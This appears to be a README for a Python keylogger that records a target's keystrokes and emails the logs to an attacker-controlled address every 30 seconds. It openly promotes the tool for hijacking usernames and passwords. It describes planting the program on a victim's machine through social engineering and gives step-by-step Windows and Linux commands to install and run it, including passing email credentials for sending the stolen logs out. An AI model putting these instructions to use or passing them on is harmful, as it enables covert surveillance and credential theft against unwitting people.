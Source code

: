 Keylogger is a tool that helps you when you try to capture your target's keystrokes on his/her keyboard. You can use it as a Username-Password hijacking tool when you upload this program as a executable file (via social engineering) to your target's machine.

USAGE: 1-) FOR WINDOWS: Open cmd and write this command -> 1-) cd Desktop
       1.2 C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe -m pip install pynput(First part is your python.exe's location change it properly for            your device python.exe location)
       1.3-) After you install pynput library, run the KeyLogger with -> C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
       1.4-) After that, keylogger will capture all of the keystrokes on the target machine and will send E-mails that contains keystrokes from the target.
       
       2-) FOR LINUX : 1.1-) pip3 install pynput
                       1.2-) cd /root/PycharmProjects/Keylogger
                       1.3-) python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress'                                    password)
                       1.4-) If you have any problem in LINUX do as follows : 
                            sudo apt update
                            sude apt install python3
                            sudo apt-get install python3-dev
                            sudo apt install python3-pip
 
And your program will run without any error.

IMPORTANT NOTE: The first mail on the receiver e-mail will be empty. Ignore it, the second mail will come after 30 seconds and will contain the keylogs of the target machine.
                            
                            
       
